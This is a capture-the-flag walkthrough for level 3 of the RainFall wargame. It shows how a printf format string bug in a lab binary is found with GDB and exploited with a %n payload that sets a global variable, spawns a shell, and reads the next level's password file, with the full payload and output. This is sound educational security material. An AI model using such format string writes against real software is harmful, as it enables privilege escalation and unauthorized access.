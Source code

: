 # RainFall Level 3 Walkthrough

## Objective

The goal of Level 3 is to exploit the `level3` binary using a **format string vulnerability** in order to modify a variable in memory and gain access to `level4`.

---

## Step 1: Examine the Environment

After switching to `level3`:

```bash
level7@RainFall:~$ su level3
Password:
level3@RainFall:~$ ls
level3
```

> Important notes:
>
> * **No stack canary** → stack overflows possible.
> * **NX disabled** → executable stack.
> * **No PIE** → static addresses.

---

## Step 2: First Run

Running the program with format specifiers:

```bash
./level3
%p %p %p
0x200 0xb7fd1ac0 0xb7ff37d0
```

> The input is passed directly into `printf`, confirming a **format string vulnerability**.

This means the printf used is not protected. instead of printing the absolute value of the string it interprets it while reading the stack.

Let's try to pinpoint at which point printf starts interacting with the stack:

```bash
./level3 "aaaa %p %p %p %p %p"
aaaa 0x200 0xb7fd1ac0 0xb7ff37d0 0x61616161 0x20702520
```

---

## Step 3: Disassemble the Program

Open the binary in GDB:

```bash
gdb ./level3
```

Check functions:

```gdb
info functions
```

Notable functions:

```
0x08048390  printf@plt
0x080483a0  fgets@plt
0x080483c0  system@plt
0x080484a4  v
0x0804851a  main
```

Disassemble `main`:

```gdb
disas main
```

```asm
0x0804851a <+0>:  call   0x80484a4 <v>
```

So execution flows directly to `v`.

Disassemble `v`:

```gdb
disas v
```

Key observations:

* Input is read with `fgets`.
* Then printed with `printf` (vulnerable).
* The global variable `m` (`0x0804988c`) is compared to `0x40`.
* If `m == 0x40`, the program calls `system("/bin/sh")`.

---

## Step 4: Identify the Target

Check global variables:

```gdb
info var
```

Output:

```
0x0804988c  m
```

So we need to set `m = 0x40`.

> I am not going into too many details here, but v compares m to 0x40 == 64

---

## Step 5: Exploitation Strategy

We can use a format string payload with `%n` to write to `m`.

Address of `m`: `0x0804988c`.

Construct payload:

```bash
python -c 'print "\x8c\x98\x04\x08" + "%60d%4$n"' > /tmp/lv3
```

Run it:

```bash
./level3 < /tmp/lv3
```

Output:

```
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Wait what?!
```

> The message *“Wait what?!”* confirms that `m` was successfully modified.

---

## Step 6: Get a Shell

Run interactively:

```bash
cat /tmp/lv3 - | ./level3
```

Now check identity:

```bash
whoami
level4
```

Retrieve the password:

```bash
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

---

## Step 7: Summary

* **Vulnerability:** Format string bug in `printf`.
* **Target:** Global variable `m` at `0x0804988c`.
* **Exploit:** Use `%n` to set `m = 0x40`.
* **Payload Example:**

  ```bash
  python -c 'print "\x8c\x98\x04\x08" + "%60d%4$n"' > /tmp/lv3
  ./level3 < /tmp/lv3
  ```
* **Outcome:** Escalation to `level4` and retrieval of its password.

---

**End of Level 3 Walkthrough**

